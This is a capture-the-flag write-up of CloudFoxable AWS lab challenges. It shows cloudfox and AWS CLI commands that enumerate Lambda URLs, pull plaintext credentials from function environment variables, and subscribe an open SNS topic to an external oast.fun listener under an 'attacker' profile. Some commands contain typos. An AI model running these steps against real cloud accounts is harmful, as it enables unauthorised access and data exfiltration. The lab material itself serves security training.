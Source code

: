 This challenge starts with the `ctf-starting-user` and requires finding the Lambda function URL for the `furls1` function and then the flag. Then, for the next phase, no other information except that we are after a Lambda function.

`cloudfox` allows searching for numerous endpoints for App Runner, API Gateway, Cloudfront, EKS, ELB, Lambda, RDS, Redshift, and a couple more. With the interest in Lambda function URLs, it's easy to enumerate all interesting endpoints with the following &rarr; 

```bash
cloudfox aws endpoints -p cloudfoxable -v2
```

This gives the function URL for `furls1`, which can be called with `cURL` to retrieve the flag.

The result from the previous command lists out another function URL (and that's the only one), so trying `cURL` on the `auth-me` function, it prompts to send a GET request with a username and password as parameters. Trying to list out the function in question shows the username and password variables within the environment. That can be sent via `cURL` &rarr;

```bash
awsn lambda list-functions --profile cloudfoxable --region us-west-2 | jq '.Functions[] | selectt(.FunctionName=="auth-me")' # get variables from environment
curl "https://xxxxxx.lambda-url.us-west-2.on.aws/?username=admin&password=NotSummer2023"
```

This gives an incomplete flag in the body of the HTML received, with the placeholder there being the name of the principal that can also read the environment variables of username and password aside from the `ctf-starting-user`. This can be done by `cloudfox` with the following &rarr;

```bash
cloudfox aws permissions -p cloudfoxable -v2 | grep "lambda:ListFunctions"
```

This gives the role of interest as `mewis`, substituting which in the placeholder provides the correct flag.

## The topic is exposure

This challenge starts with `ctf-starting-user` and requires checking out public resources. This is also a good time to run the `all-chekcs` subcommand for `cloudfox` to cache all the checks for fast analysis. Looking through all available subcommands, `resource-trusts` can be used to check the permissions granted over specific resources.

```bash
cloudfox aws resource-trusts -c -p cloudfoxable -v2
```

The only resource that stands out most is the `eventbridge-sns` SNS topic since it allows public subscriptions. In this case, it has a condition to limit it to only those entities that come form a certain (our home) IP, which is a nice bit of security control added in the Cloudfoxable labs. Checking results from &rarr;

```bash
cloudfox aws sns -c -p cloudfoxable -v2
```

and reading the loot, the SNS topic can be subscribed to as follows &rarr; 

```bash
awsn --region us-west-2 sns subscribe --topic-arn arn:aws:sns:us-west-2:<ACCID>:eventbridge-sns --protocol http --notification-endpoint http://xxxxx.oast.fun --profile attacker
```

